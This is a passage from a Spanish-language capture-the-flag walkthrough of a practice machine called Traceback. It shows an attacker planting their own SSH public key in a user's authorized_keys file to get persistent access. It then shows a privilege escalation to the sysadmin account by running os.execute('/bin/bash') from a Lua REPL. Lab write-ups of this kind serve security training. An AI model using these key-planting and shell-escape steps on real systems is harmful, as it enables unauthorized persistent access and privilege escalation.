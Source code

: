Dentro de Traceback:

> `echo "
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAAAgQDEJknTEwSqMP9to1BhYwF/kr3Cpoavb6EfKZz/BTvw/LOlmxrEAyMbJUBBOogtXKiwO7eQqOyK2eHnZdCd5Laq7cX58Coc5lDWdbBJUdNrKqwlbiDrA4x38+W6Ir95ClkfaxnWB3FonfZwnP0wQAsm7AltbH0gKMCH/NDOUXHF3Q== root@duende" >> /home/webadmin/.ssh/authorized_keys`

En Kali:

> `ssh -i mykey webadmin@10.10.10.181`


En Traceback:

```console
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land



Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Fri Aug 14 04:19:56 2020 from 10.10.14.11
```

---


## **Escalamiento de Privilegios**
---

El script de LUA corre como el usuario **sysadmin**

googleando un poco se encuentra que existe una forma de escapar del shell limitado en el que me meti con el siguente comando:

> `os.execute("/bin/bash")`

```console
-u sysadmin /home/sysadmin/luvit
Welcome to the Luvit repl!
os.execute("/bin/bash")
sysadmin@traceback:~$ whoami
sysadmin
```

Así que tengo un bash corriendo como **sysadmin** para normalizar la terminal, nuevamente agrego la llave pública de mi Kali a al archivo `authorized_keys` y listo, SSH.

> `ssh -i mykey sysadmin@10.10.10.181`

```console
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land



Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Mon Mar 16 03:50:24 2020 from 10.10.14.2
```